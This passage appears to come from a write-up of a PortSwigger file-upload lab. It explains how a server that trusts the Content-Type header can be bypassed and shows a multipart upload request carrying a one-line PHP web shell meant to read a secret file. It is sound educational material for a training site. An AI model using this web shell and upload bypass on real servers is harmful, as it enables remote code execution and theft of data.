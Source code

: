In this example, the request body is divided into separate parts, each representing a specific input field from the form. Each part has a `Content-Disposition` header that provides basic information about the corresponding input field. Additionally, some parts may have their own `Content-Type` header, which indicates the MIME type of the data submitted through that input field.

Server configurations often include validation of file types by examining the `Content-Type` header and comparing its MIME type to the expected MIME type. For instance, if the server is expect image files, it might only permit types such as `image/jpeg` and `image/png`. However, issues can arise when the server blindly trusts the value of this header without conducting additional validation to ensure that the file's contents genuinely match the indicated MIME type. This defense mechanism can be easily bypassed using tools like Burp Repeater.

Attackers can exploit vulnerabilities by manipulating the `Content-Type` header and uploading malicious code onto the server. If the server solely relies on the provided header value without further verification, it may accept the uploaded content as legitimate. This can enable attackers to execute arbitrary code on the server and potentially gain unauthorized access or control.

### LAB #2: Web Shell Upload via Content-Type restriction bypass

Lab URL: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

**Objective**

Upload a basic PHP web shell and use it to exfiltrate the content of the file `/home/carlos/secret`.

**Credentials**
```
wiener:peter
```

**Solution**

This lab is similar to the last website in which after login we can see functionality to upload avatar images. The upload avatar functionality sends the `POST` to `/my-account/avatar`. We try to upload the `exploit.php` file that has the same PHP web-shell code we use in our last lab but this time when we upload that they throw the following error message.

**Request**
```
POST /my-account/avatar HTTP/1.1
Host: 0a7100d6043375628054efe4008d00d0.web-security-academy.net
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDjhEPM3Soc8YpDgQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=2w2WFeEcH3wFrOI6gH3WQWsEch1A4tU9
Content-Length: 436

------WebKitFormBoundaryDjhEPM3Soc8YpDgQ
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php system($_GET["cmd"]);?>

------WebKitFormBoundaryDjhEPM3Soc8YpDgQ
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryDjhEPM3Soc8YpDgQ
Content-Disposition: form-data; name="csrf"

qS8wCCB7hMQN7mlBL8Z2c8PgPvnOnLAm
------WebKitFormBoundaryDjhEPM3Soc8YpDgQ--
```
